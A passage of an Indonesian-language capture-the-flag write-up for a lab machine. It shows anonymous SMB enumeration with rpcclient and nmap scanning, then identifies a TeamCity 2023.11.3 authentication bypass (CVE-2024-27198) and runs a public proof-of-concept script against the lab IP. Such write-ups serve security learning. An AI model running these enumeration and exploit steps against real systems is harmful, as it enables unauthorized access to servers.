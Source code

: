 - Terdapat celah null session atau attacker dapat login sebagai anonymous.

```bash
rpcclient -U "" -N 10.1.2.233 -p 139
```

- Hasil enumerasi domain: `enumdomains`.

```bash
rpcclient $> enumdomains
name:[LETHOS] idx:[0x0]
name:[Builtin] idx:[0x1]
```

- Hasil enumerasi shared folder: `netshareenumall`.

```bash
rpcclient $> netshareenumall
netname: print$
  remark: Printer Drivers
  path:   C:\\var\\lib\\samba\\printers
  password:
netname: IPC$
  remark: IPC Service (lethos server (Samba, Ubuntu))
  path:   C:\\tmp
  password:
```

- Tidak berhasil mendapatkan `enumdomusers`.

### HTTP Port 8111 Enumeration

- Hasil scan service pada port **8111** menggunakan `nmap`.

```bash
nmap -p 8111 -sVC -v -oN output_scan_port_8111.txt 10.1.2.233
```

![Rocket-02](/images/hacktrace-ranges_boot2root1-02.png)

- Setelah saya coba open port **8111** di web browser, terdapat info menarik yaitu tampil halaman login **JetBrains TeamCity versi 2023.11.3**.
- Tanpa pikir panjang, saya langsung mencari tau apakah versi tersebut ada CVE-nya atau tidak.
- Dari hasil pencarian, ditemukan bahwa **JetBrains TeamCity versi 2023.11.3** terdapat kerentanan ***Authentication Bypass to RCE***, yang mana mengizinkan attacker bisa login tanpa menggunakan akun yang sah/terdaftar di sistem (lebih lengkapnya baca artikel ini: https://www.vicarius.io/vsociety/posts/teamcity-auth-bypass-to-rce-cve-2024-27198-and-cve-2024-27199).

![Rocket-03](/images/hacktrace-ranges_boot2root1-03.png)

- Kemudian saya cari script POC yang mungkin orang lain pernah buat, dan ternyata saya menemukannya dari repo GitHub berikut: https://github.com/W01fh4cker/CVE-2024-27198-RCE.
- Saya coba jalankan script tersebut menggunakan command:

```bash
pip3 install requests urllib3 faker
python3 CVE-2024-27198-RCE.py -t <http://10.1.2.233:8111>
```
